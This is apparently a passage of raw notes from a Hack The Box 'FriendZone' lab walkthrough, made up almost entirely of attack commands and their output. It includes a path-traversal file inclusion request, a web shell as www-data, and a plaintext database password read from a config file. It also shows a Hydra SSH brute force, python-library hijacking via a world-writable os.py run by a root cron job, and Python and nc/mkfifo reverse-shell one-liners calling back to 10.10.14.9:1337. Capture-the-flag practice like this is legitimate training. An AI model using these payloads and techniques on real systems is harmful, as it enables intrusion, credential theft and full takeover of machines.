Content-Disposition: form-data; name="Upload"
Upload
-----------------------------110488601112522664683183253771--

```


Uploaded successfully !
1611761010


index.gif 1611761231


GET /dashboard.php?image_id=../../../../../../../../etc/Development/creds.txt&pagename=timestamp HTTP/1.1


https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/rev


Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 16:58:45 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/


www-data@FriendZone:/var/www$ cat mysql_data.conf 
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ


www-data@FriendZone:/var/www$ mysql -ufriend -p

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.


kali@kali:~/htb/boxes/friendzone/10.10.10.123$ hydra -L users.txt -P passwords.txt ssh://10.10.10.123
Hydra v9.2-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-27 15:59:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://10.10.10.123:22/
[22][ssh] host: 10.10.10.123   login: friend   password: Agpyu12!0.213$
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-27 15:59:23


friend@FriendZone:~$ ls
user.txt


[+] Unexpected in root
/swapfile
/vmlinuz.old
/initrd.img.old
/vmlinuz
/initrd.img
/lost+found


[+] Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root adm 124306 Jan 23  2019 /var/log/apt/term.log
-rw-r----- 1 root adm 50317702 Jan 27 16:58 /var/log/apache2/error.log
-rw-r----- 1 root adm 125712830 Jan 27 16:58 /var/log/apache2/other_vhosts_access.log
-rw-r----- 1 root adm 55065436 Jan 27 16:20 /var/log/apache2/access.log


[+] Mails (limit 50)
   283868      4 -rw-rw----   1 friend   mail            1 Jan 15  2019 /var/mail/friend
   283868      4 -rw-rw----   1 friend   mail            1 Jan 15  2019 /var/spool/mail/frien


   Searching possible passwords inside /home/friend/.bash_history (limit 100)

-rw-r--r-- 1 friend friend 3771 Oct  5  2018 /home/friend/.bashrc
-rw-r--r-- 1 friend friend 807 Oct  5  2018 /home/friend/.profile
-rw-r--r-- 1 friend friend 0 Oct  5  2018 /home/friend/.sudo_as_admin_successful
-rwsr-xr-x 1 root root 59640 Jan 25  2018 /usr/bin/passwd
-rw-r--r-- 1 root root 3106 Aug  7  2018 /usr/share/base-files/dot.bashrc
-rw-r--r-- 1 root root 2778 Aug 13  2017 /usr/share/doc/adduser/examples/adduser.local.conf.examples/bash.bashrc
-rw-r--r-- 1 root root 802 Aug 13  2017 /usr/share/doc/adduser/examples/adduser.local.conf.examples/skel/dot.bashrc


friend@FriendZone:/opt$ ls -lah .
total 12K
drwxr-xr-x  3 root root 4.0K Oct  6  2018 .
drwxr-xr-x 22 root root 4.0K Oct  5  2018 ..
drwxr-xr-x  2 root root 4.0K Jan 24  2019 server_admin
friend@FriendZone:/opt$ ls -lah server_admin/
total 12K
drwxr-xr-x 2 root root 4.0K Jan 24  2019 .
drwxr-xr-x 3 root root 4.0K Oct  6  2018 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py


2021/01/27 17:22:01 CMD: UID=0    PID=19671  | /usr/bin/python /opt/server_admin/reporter.py 

https://github.com/DominicBreuker/pspy


#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer


friend@FriendZone:~$ find /usr -name os.py | xargs ls -lah
-rwxrwxrwx 1 root root 26K Jan 15  2019 /usr/lib/python2.7/os.py
-rw-r--r-- 1 root root 37K Sep 12  2018 /usr/lib/python3.6/os.py


kali@kali:/opt/shells/shellgen$ ./shellgen tun0 1337 py
   ___  _   _  ____  __    __    ___  ____  _  _ 
  / __)( )_( )( ___)(  )  (  )  / __)( ___)( \( )
  \__ \ ) _ (  )__)  )(__  )(__( (_-. )__)  )  ( 
  (___/(_) (_)(____)(____)(____)\___/(____)(_)\_)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 1337 >/tmp/f")


id
uid=0(root) gid=0(root) groups=0(root)